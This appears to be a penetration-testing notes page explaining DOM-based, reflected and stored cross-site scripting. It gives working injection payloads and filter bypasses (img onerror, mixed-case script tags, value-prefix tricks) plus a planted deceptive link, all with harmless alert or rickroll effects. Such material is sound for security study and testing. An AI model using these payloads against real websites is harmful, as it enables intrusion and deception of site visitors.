 # Cross-Site Scripting

Also known as XSS scripting, it allows the execution of malicious code of JavaScript or any client-side language. We can find different types of XSS scripting:

## <mark style="color:blue;">DOM-based</mark>

The vulnerability is in the client-side code, where the browser’s Document Object Model (DOM), the one handled by HTML, is manipulated to execute untrusted scripts.

We can find a typical example of this vulnerability as follows:

* The URL shows changes in a parameter

<pre class="language-html" data-title="Example Case" data-overflow="wrap" data-line-numbers><code class="lang-html">&#x3C;!-- We select language in a slider and is reflected on url -->
http://url/?language=en

&#x3C;!-- Check html of the page for script tags and document.write() functions-->
...
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>
...

&#x3C;!-- Use '> to close the "value" parameter and then close tags -->
http://url/?default='>&#x3C;/option>&#x3C;/select>   
&#x3C;!-- We will see all options of the slider are now displayed on screen -->

<strong>&#x3C;!-- Then we can create any tag to insert HMTL code-->
</strong>http://url/?default='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

&#x3C;!-- We can even abuse this to inject JS code -->
http://url/?default='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTRY TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input

{% tabs %}
{% tab title="Case 1" %}
Sometimes the script tag will be filtered

{% code title="Example source code" %}
```php
...
if (stripos ($default, "<script") !== false) {
...
```
{% endcode %}

This could be bypassed using a `img` tag and then putting a bad `src` value which will cause an error. After that, we can handle it with the `onerror` parameter that lets us insert _JS_ Code

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?default='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
Sometimes the input will be filtered with specific values

{% code title="Example source code" %}
```php
...
switch ($_GET['default']) { 
    case "French": 
    case "English":
...
```
{% endcode %}

This could be bypassed using any of these values at the start of the sentence, and then using a `&` to concatenate the payload of the injection

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?default=English&'></option></select><script>alert("HACKED")</script>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Reflected</mark>

The vulnerability occurs when the parameters inputted by the client, are displayed on the screen of the page when the site processes a request.

We can find typical examples of this vulnerability as follows:

* When a parameter is sent in a query of the URL or a formulary, and this value is shown on the page content

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash">#We do a petition and the site returns "Hello" in any part of the HTML
curl http://$url/?msg=$value 
# Then we could try to inject code
<strong>curl http://url/?msg=&#x3C;script>alert("HACKED")&#x3C;/script>
</strong>
#Or when we insert a value in a form and the site returns it in any part of the HTML, we could fill the form with code to inject
&#x3C;script>alert("HACKED")&#x3C;/script>
</code></pre>

***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
Sometimes the script tag will be filtered

{% code title="Example source code" %}
```php
...
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
...
```
{% endcode %}

This could be bypassed by using capital letters on the tag values or using other symbols to evade filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
<sCrIpT>alert("HACKED")</script>
<s|script>alert("HACKED")</script>
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
If that still doesn't work, we can use a `img` tag, and then put a bad `src` value which will cause an error. After that, we can handle it with the `onerror` parameter that lets us insert _JS_ Code

<pre class="language-bash"><code class="lang-bash"><strong>&#x3C;img src=x onerror='alert("HACKED")'/>
</strong></code></pre>
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Stored</mark>

The vulnerability occurs when the input of values is saved by the web and displayed to anyone who browses the site. In the same way, malicious code will remain globally on the website.

We can find a typical example of this vulnerability as follows:

* We find a list of entries, and we see a formulary that inputs fill those entries globally on the page

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert names and comments in the formulary.
#Then we could fill the form to inject malicious code and show it to any other user that browse the website
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

{% hint style="info" %}
If we encounter a limitation on the length of the input, we can right-click the form space, go to _Inspect,_ and modify the `maxlength` value
{% endhint %}
